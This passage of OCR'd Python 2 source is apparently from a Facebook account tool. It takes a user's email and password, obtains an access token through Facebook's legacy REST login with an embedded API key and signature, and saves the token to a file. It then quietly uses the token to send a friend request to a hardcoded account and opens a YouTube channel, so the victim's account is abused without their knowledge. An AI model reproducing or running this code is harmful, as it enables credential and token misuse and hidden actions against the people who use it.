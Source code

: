 			print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\033[1;96m[✓] \x1b[1;92mLogin Hogai'
				os.system('xdg-open https://www.youtube.com/channel/UCsdJQbRf0xpvwaDu1rqgJuA')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;96m[!] \x1b[1;91mAisa lagta hai apka account checkpoint pe hai")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;96m[!] \x1b[1;91mPassword/Email ghalat hai")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()


def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\x1b[1;91m[!] Token invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
		ots = requests.get('https://graph.facebook.com/me/subscribers?access_token=' + toket)
		b = json.loads(ots.text)
		sub = str(b['summary']['total_count'])